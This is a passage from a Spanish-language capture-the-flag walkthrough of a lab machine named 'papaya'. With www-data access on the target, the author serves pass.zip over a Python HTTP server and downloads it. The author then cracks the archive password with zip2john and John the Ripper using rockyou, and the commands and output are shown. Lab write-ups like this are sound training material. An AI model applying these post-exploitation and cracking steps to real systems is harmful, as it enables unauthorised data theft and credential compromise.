 Revisando un poco más, encontramos un **archivo ZIP** en el directorio `/opt`:
```bash
www-data@papaya:/home$ ls -la /opt
ls -la /opt
total 12
drwxr-xr-x  2 root root 4096 Jul  2  2024 .
drwxr-xr-x 18 root root 4096 Jul  2  2024 ..
-rwxr-xr-x  1 root root  173 Jul  2  2024 pass.zip
```
Vamos a descargarlo en nuestra máquina.

Comprobemos si tenemos **Python3**:
```bash
www-data@papaya:/opt$ which python3
which python3
/usr/bin/python3
```
Lo tenemos.

Podemos levantar un servidor con **Python3** en el directorio `/opt`:
```bash
www-data@papaya:/opt$ python3 -m http.server 8080
python3 -m http.server 8080
```

Y descargamos el **archivo ZIP** con **wget**:
```bash
wget http://192.168.10.30:8080/pass.zip
--2025-05-06 03:15:41--  http://192.168.10.30:8080/pass.zip
Conectando con 192.168.10.30:8080... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 173 [application/zip]
Grabando a: «pass.zip»
.
pass.zip    100%[================>]     173  --.-KB/s    en 0.001s  
.
2025-05-06 03:15:41 (282 KB/s) - «pass.zip» guardado [173/173]
```

Tratemos de descomprimirlo:
```bash
unzip pass.zip
Archive:  pass.zip
[pass.zip] pass.txt password:
```
Nos pide una contraseña.

Vamos a crackear este **archivo ZIP**, por lo que necesitamos primero el hash del archivo que podemos obtener con la herramienta **zip2john**:
```bash
zip2john pass.zip > hash
ver 2.0 pass.zip/pass.txt PKZIP Encr: cmplen=23, decmplen=11, crc=EEA46B01 ts=89BB cs=eea4 type=0
```
Listo.

Crackeamos el hash con **JohnTheRipper**:
```bash
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
jesica           (pass.zip/pass.txt)     
1g 0:00:00:00 DONE (2025-05-06 03:19) 25.00g/s 307200p/s 307200c/s 307200C/s 123456..hawkeye
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Tenemos la contraseña.
